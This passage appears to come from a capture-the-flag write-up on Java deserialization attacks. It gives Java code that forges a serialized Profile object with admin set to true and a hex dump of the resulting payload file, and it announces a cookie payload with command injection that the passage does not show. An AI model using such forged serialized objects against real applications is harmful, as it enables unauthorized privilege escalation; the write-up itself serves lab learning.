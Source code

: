 ```
```

I’ll change it to have it generate two things:
- A simple serialized `Profile` object that has `admin` set to true.
- A serialized `UserProfile` object for the cookie that has the path that both gets to the uploaded profile and has command injection.

#### Profile Object

To create a `Profile` object, I’ll just create one like in the code I have, and then I’ll write it to a file using the `SerUtils` and `FileUtil`:

```

package com.admin.security.src;

import com.admin.security.src.model.Profile;
import com.admin.security.src.utils.SerUtils;
import com.admin.security.src.utils.FileUtil;
import java.util.ArrayList;
import java.io.File;
import java.io.IOException;

public class App {
    public static void main( String[] args ) throws IOException {
        Profile profile = new Profile(new ArrayList<>(), true);
        FileUtil.write(SerUtils.toByteArray(profile), new File("./0xdf.ser"));
    }
}

```

When I `mvn package` and then run this, it generates the file:

```

oxdf@hacky$ xxd 0xdf.ser 
00000000: aced 0005 7372 0024 636f 6d2e 6164 6d69  ....sr.$com.admi
00000010: 6e2e 7365 6375 7269 7479 2e73 7263 2e6d  n.security.src.m
00000020: 6f64 656c 2e50 726f 6669 6c65 3774 2025  odel.Profile7t %
00000030: 7b91 5797 0200 035a 000c 6164 6d69 6e50  {.W....Z..adminP
00000040: 726f 6669 6c65 4c00 0661 7661 7461 7274  rofileL..avatart
00000050: 000e 4c6a 6176 612f 696f 2f46 696c 653b  ..Ljava/io/File;
00000060: 4c00 046c 6f67 7374 0010 4c6a 6176 612f  L..logst..Ljava/
00000070: 7574 696c 2f4c 6973 743b 7870 0170 7372  util/List;xp.psr
00000080: 0013 6a61 7661 2e75 7469 6c2e 4172 7261  ..java.util.Arra
00000090: 794c 6973 7478 81d2 1d99 c761 9d03 0001  yListx.....a....
000000a0: 4900 0473 697a 6578 7000 0000 0077 0400  I..sizexp....w..
000000b0: 0000 0078

```

#### UserProfileStorage Object
